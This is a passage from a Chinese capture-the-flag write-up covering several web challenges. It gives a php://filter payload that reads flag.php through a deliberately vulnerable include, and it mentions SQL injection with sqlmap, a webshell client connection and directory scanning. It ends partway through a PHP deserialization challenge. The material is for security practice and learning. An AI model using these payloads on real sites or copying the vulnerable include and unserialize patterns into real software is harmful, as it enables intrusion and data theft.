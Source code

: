 传入file=1得到题目
```
 <?php
ini_set("allow_url_include","on");
header("Content-type: text/html; charset=utf-8");
error_reporting(0);
$file=$_GET['file'];
if(isset($file)){
    show_source(__FILE__);
    echo 'flag 在flag.php中';
}else{
    echo "传入一个file试试";
}
echo "</br>";
echo "</br>";
echo "</br>";
echo "</br>";
echo "</br>";
include_once($file);
?> flag 在flag.php中
```
传入伪协议读flag
php://filter/read=convert.base64-encode/resource=flag.php
##  [SWPUCTF 2021 新生赛]easy_sql  
基础的字符型注入或者sqlmap直接嗦
##  [SWPUCTF 2021 新生赛]caidao  
蚁剑链接得到flag
##  [第五空间 2021]WebFTP  
![9438b8fea1b3b1e21bff4bea27eed3bd.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1706091534304-1ca1bf21-e5f9-4f57-b58b-743460f76da5.png#averageHue=%23e2eab8&clientId=u18695db6-cf88-4&from=paste&height=295&id=uf8ae6e84&originHeight=369&originWidth=482&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=23658&status=done&style=none&taskId=udda2f198-534a-4dbe-bf23-5928f09a5b8&title=&width=385.6)
尝试admin/admin和admin/password等弱密码无效，用d盾扫目录
![7fc285439975380fc7451defdb55fcb0.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1706092019992-5ba71218-dab2-441e-90a7-fc04bc4bb477.png#averageHue=%230c0c0c&clientId=u18695db6-cf88-4&from=paste&height=29&id=u7b0106a2&originHeight=36&originWidth=494&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=3083&status=done&style=none&taskId=u07c748f6-8ff7-449c-b983-7bf519c161b&title=&width=395.2)
扫到phpinfo直接找到flag
##  [SWPUCTF 2021 新生赛]no_wakeup  
```
<?php

header("Content-type:text/html;charset=utf-8");
error_reporting(0);
show_source("class.php");

class HaHaHa{


        public $admin;
        public $passwd;

        public function __construct(){
            $this->admin ="user";
            $this->passwd = "123456";
        }

        public function __wakeup(){
            $this->passwd = sha1($this->passwd);
        }

        public function __destruct(){
            if($this->admin === "admin" && $this->passwd === "wllm"){
                include("flag.php");
                echo $flag;
```